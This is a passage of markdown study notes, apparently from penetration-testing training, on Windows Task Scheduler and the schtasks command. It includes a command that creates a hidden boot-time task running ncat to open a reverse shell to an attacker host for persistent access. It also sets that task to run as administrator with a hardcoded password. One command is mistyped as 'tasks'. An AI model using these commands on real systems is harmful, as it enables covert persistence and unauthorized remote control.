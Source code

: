 
### Working with Scheduled Tasks

- The Task Scheduler allows us as admins to perform routine tasks without having to kick them off manually. The scheduler will monitor the host for a specific set of conditions called triggers and execute the task once the conditions are met.
- A great example of a use for schtasks would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down.



```md
# Triggers That Can Kick Off a Scheduled Task
When a specific system event occurs.
At a specific time.
At a specific time on a daily schedule.
At a specific time on a weekly schedule.
At a specific time on a monthly schedule.
At a specific time on a monthly day-of-week schedule.
When the computer enters an idle state.
When the task is registered.
When the system is booted.
When a user logs on.
When a Terminal Server session changes state.
```

- `schtasks`
  - `/query`
  - `/create`
  - `/change`
  - `/delete`


```cmd
SCHTASKS /Query /V /FO list

schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"
REM Have schtasks execute Ncat locally, which we placed in the user's AppData directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.

schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

tasks /delete  /tn "My Secret Task"
```

---

## PowerShell

### CMD Vs. PowerSHell
